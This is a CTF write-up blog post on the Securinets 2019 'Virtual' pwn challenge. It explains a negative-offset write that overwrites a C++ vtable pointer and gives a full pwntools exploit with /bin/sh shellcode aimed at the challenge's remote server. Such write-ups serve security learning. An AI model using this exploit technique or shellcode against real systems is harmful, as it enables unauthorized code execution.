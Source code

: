 ```yaml
---
layout: post
current: post
cover: assets/images/securinets.jpg
navigation: True
title: Securinets 2019 Final - Virtual Pwn challenge
date: 2019-03-24 18:10:00
tags: Writeup CTF Pwn Cpp Exploit
class: post-template
subclass: "post tag-pwn tag-ctf"
author: sakiir
---
```


Blackfoot Security went to the Securinets CTF Final event @ Tunis the April 14 2019.

Virtual was a pwn challenge that gaves us **467pts**.

Let's first get some information about the binary and its behaviour:

![Binary Information](/assets/images/virtual/information.png)

Checksec output:

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

This is a pretty simple binary, allowing us to set our age and reading some bytes.

Let's open the binary in Ghidra and see what is going on.

```c

/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */
/* Customizer::init() */

void __thiscall init(Customizer *this)

{
  short age_cpy;
  char *user_inp;
  Customizer *__s;
  size_t sVar1;
  int age;

  (**(code **)(**(int **)(this + 0x48) + 4))(*(undefined4 *)(this + 0x48));
  puts("But first, how old are you ?");
  age = 0;
  fflush(stdin);
  scanf("%d",&age);
  if (0x1e < age) { // This is verifying if out age is over 0x1e but not if our age is less than 0 :)
    puts("hemm you are too older for this chall :\\");
  }
  age_cpy = (short)age;
  user_inp = (char *)mmap((void *)0x20202020,7,3,0x22,0,0);
  fflush(stdin);
  fgets(user_inp,0x28,stdin);
  fgets(user_inp,0x28,stdin);
  strcpy((char *)(this + (int)age_cpy),user_inp); // Copying user input in this + age
  __s = this + (int)age_cpy;
  sVar1 = strlen((char *)__s);
  __s[sVar1] = (Customizer)0x0;
  trigger(this,(char *)__s);
  return;
}
```

As written as a comment in the source code, it is not possible as an attacker to overwrite too far after the object pointer...

But the code does not check if we write before the pointer.

In Fact, we may write `0x28` bytes before the `this` object.

The goal will be to overwrite the vtable to control EIP when the object destruct itself.

This will be possible by writing `-100` byte before `this`.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
#
# Let's go now (:

from pwn import *


def main():
    context.terminal = ["tmux", "splitw", "-h"]

    s = gdb.debug("./virtual", "c\n")

    # Sending age
    s.sendlineafter("?", str(-100))

    # Making payload
    payload = ""
    payload += "A" * 4
    payload += p32(0xDEADBEEF)

    s.sendline(payload)

    s.interactive()


if __name__ == "__main__":
    main()
```

![Crash](/assets/images/virtual/deadbeef.png)

So now, we have a crash. We also know that there is no boring protection useful since the program is allocating us some bytes at the address `0x20202020`.

As show on the screenshot below, our buffer is mapped `rwx` at `0x20202020`.

![VMMap](/assets/images/virtual/vmmap.png)

Using a basic 32bits /bin/sh shellcode will get us a shell.

> We use 0xcc to make sure our shellcode is executed locally

```python

#!/usr/bin/env python
# -*- coding: utf-8 -*-
#
# @SakiiR

from pwn import *


def main():
    context.terminal = ["tmux", "splitw", "-h"]

    # s = gdb.debug("./virtual", "c\n")
    # s = process("./virtual")
    s = remote("3.86.187.67", 6666)

    shellcode = (
        "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f"
        "\x73\x68\x68\x2f\x62\x69\x6e\x89"
        "\xe3\xb0\x0b\xcd\x80"
    )
    s.sendlineafter("?", str(-100))

    payload = ""
    payload += "A" * 4
    # +8 to go after the first A and the return address.
    # -0x20 because the addresse is computed like that in the destructor
    payload += p32((0x20202020 + 8) - 0x20)
    payload += "\x90"
    payload += shellcode
    # payload += "\xcc" # useless now :)

    s.sendline(payload)

    s.interactive()


if __name__ == "__main__":
    main()

```

